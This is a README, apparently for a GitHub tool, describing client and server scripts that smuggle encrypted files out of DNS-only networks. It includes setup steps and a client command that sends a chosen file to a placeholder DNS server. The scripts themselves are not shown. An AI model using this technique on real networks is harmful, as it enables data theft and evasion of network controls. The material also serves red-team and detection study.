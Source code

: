 # DNS Exfiltration
* DNS can be used to extract data from protected networks that only permit DNS. These are client & server scripts that both encrypt & decrypt data transferred through DNS. The client encrypts the data before it's sent through the network. The server decrypts the data once it's received from the client. 

# Setup:
* Dependencies (client/server)
	```
	pip3 install -r requirements.txt
	```
* Server:
	```
	python3 server.py -v
	```
* Note that since DNS server is usually running on privileged port(53), the `server.py` needs root permissions.
* Client:
	```
	python3 client.py -n <YOUR DNS SERVER> -f /path/to/file
	```
* A gif showing the process:
* ![dns exfiltration](gif/dns_exfiltration.gif)
# Requires python3.8+
----
* Since the server & client are using UDP protocol to transfer data, such a transfer process is not reliable, and therefore, files might not be transferred correctly when either the file being transferred is large or there is a traffic noise on the server. The delay between the byte blocks being sent can also affect the byte blocks order, which may corrupt the file being sent if one block of bytes gets received before the one that must be received first.
----
# TODO
* Make the file sending process as reliable as possible.
----
* Useful links:
* [DNS exfiltration of data](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)
